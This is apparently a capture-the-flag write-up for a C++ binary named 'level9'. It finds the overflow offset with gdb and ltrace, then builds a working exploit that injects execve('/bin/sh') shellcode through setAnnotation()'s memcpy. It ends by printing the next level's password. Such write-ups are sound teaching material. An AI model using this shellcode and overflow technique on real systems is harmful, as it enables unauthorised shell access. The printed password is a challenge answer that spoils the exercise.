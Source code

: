 # level9

main() 
This binary is written in cpp and there is no calls to /bin/sh, we'll have to use shellcode this time.
We should use the memcpy() on argv[1] in setAnnotation() to make the call to edx and run the shellcode.


## address
setanotation: 
    0804870e

Lets check the offset for buffer overflow.

    $ gdb ./level9
    run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
    info register eax  
    eax            0x41366441	1094083649

41366441 -> A6dA

    $ echo 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5' | wc -c
    
> returns 109 including /0 so char count is 108 this is our offset

    gdb: set disassembly-flavor intel
    gdb: disas main
    ...
    0x08048674 <+128>:	mov    DWORD PTR [esp],eax
    0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
    0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]  # This is where we want to inject our code. 
    0x08048680 <+140>:	mov    eax,DWORD PTR [eax]

I want to find the address where it segfaults, so I ltrace with 109 chars

    $ ltrace ./level9 `python -c 'print "A" * 109'`
    ...
    memcpy(0x0804a00c, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 120) = 0x0804a00c

Now that we know this, put address at beginning of buffer.

    gdb: run $(python -c 'print "A" * 108 + "\x0c\xa0\x04\x08"')

Another segfault.
edx has loaded our argument end: 0x41414141 ('AAAA'). It is easy to think about the exploit: let's put a shellcode in order to execute execve("/bin/sh", ["/bin/sh"], NULL) (refers to level2/Ressources). The final exploit is like:

    $ ./level9 `python -c 'print "\x10\xa0\x04\x08" + "\x90"*14 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*69 + "\x0c\xa0\x04\x08"'`
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


shell code:
http://shell-storm.org/shellcode/files/shellcode-575.html

"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

